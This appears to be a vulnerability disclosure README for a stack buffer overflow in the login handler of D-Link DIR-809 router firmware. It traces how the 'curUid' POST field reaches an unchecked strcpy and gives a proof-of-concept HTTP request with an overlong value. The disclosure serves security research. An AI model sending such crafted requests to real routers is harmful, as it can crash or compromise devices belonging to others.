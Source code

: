 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/fromLogin` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

 ## Vulnerability description

In the function `sub_8003183C` ( page `/fromLogin` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of the key "curUid" in the http post request which is completely under the attacker's control. 
2. The string `v4` obtained from user is then passed to `sub_800FE9CC` as the third argument. 
3. In the function `sub_800FE9CC`, argument `a3` is copied to stack using `strcpy` without any check. So we can make the stack buffer overflow in `v8`. (See the second figure below. )

![2021-05-10_10h03_30](README/2021-05-10_10h03_30.png)

![2021-05-10_10h05_24](README/2021-05-10_10h05_24.png)







## PoC

``` 
POST /formLogin.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 154
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/index.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=HQLFFU3LE1
Connection: close

curTime=1620541879564&curUid=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&FILECODE=&VERIFICATION_CODE=&user_name=admin&loginpwd=4DD9824117635539BF66A03AB80A35FC&VER_CODE=
```





## Acknowledgment

Credit to  [@peanuts62](https://github.com/peanuts62), [@Yu3H0](https://github.com/Yu3H0/), [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

